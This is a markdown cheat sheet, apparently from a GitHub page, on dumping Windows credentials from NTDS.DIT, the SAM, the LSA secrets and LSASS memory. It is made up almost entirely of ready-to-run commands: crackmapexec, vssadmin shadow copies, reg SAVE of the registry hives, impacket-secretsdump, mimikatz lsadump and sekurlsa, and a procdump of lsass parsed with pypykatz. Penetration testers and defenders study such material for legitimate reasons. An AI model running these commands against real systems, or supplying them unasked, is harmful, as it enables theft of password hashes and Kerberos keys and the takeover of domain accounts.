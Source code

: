 # Credentials Dumping
Uses the boot key to decrypt useful files:
```bash
reg SAVE HKLM\SYSTEM %SystemRoot%\Temp\SYSTEM
```

## NTDS.DIT
All domain account hashes & kerberos keys. The database is stored on the DC located in the NTDS folder of the system root. Hashes can be used for Pass The Hash attack (except cached hashes).
```bash
crackmapexec smb <IP> -d '<DOMAIN>' -u '<USER>' -p '<PASS>' --ntds

vssadmin create shadow /for=C:
copy <VOLUME_NAME>\Windows\NTDS\ntds.dit %SystemRoot%\Temp\NTDS
vssadmin delete shadows /shadow=<ID>
impacket-secretsdump -ntds <NTDS> -system <SYSTEM> LOCAL

lsadump::dcsync \all
```

## SAM
Security Account Manager (SAM) database contains all NTLM hashes for local accounts, stored at `HKLM\SAM` or `c:\system32\config\sam`. On a DC, it simply stores the administrator account from the time it was a server, which serves as the Directory Services Restore Mode (DSRM) recovery account.
```bash
crackmapexec smb <IP> -d '<DOMAIN>' -u '<USER>' -p '<PASS>' --sam

reg SAVE HKLM\SAM %SystemRoot%\Temp\SAM
impacket-secretsdump -sam <SAM> -system <SYSTEM> LOCAL
token::elevate lsadump::sam /system:<SYSTEM> /SAM:<SAM>

token::elevate lsadump::sam
```

## LSA secrets
Local Security Authority (LSA) contains cached secrets and keys, stored at `HKLM\SECURITY` or `c:\system32\config\security`.
```bash
crackmapexec smb <IP> -d '<DOMAIN>' -u '<USER>' -p '<PASS>' --lsa

reg SAVE HKLM\SECURITY %SystemRoot%\Temp\SECURITY
impacket-secretsdump -security <SECURITY> -system <SYSTEM> LOCAL

token::elevate lsadump::cache
token::elevate lsadump::lsa /inject # ? LOCAL ACCOUNTS?!
lsadump::secrets
```

## LSASS process
Local Security Authority Subsystem Service (LSASS) contains passwords and NTLM hashes, stored in lsass.exe.
```bash
crackmapexec smb <IP> -d '<DOMAIN>' -u '<USER>' -p '<PASS>' -M lsassy
lsassy -d '<DOMAIN>' -u '<USER>' -p '<PASS>' <IP>

tasklist /fi "imagename eq lsass.exe"
procdump.exe -accepteula -ma <PID> %SystemRoot%\Temp\lsass.dmp
pypykatz lsa minidump lsass.dmp

sekurlsa::logonPasswords
```




```bash
impacket-secretsdump '<DOMAIN>/<USER>:<PASS>@<IP>'
```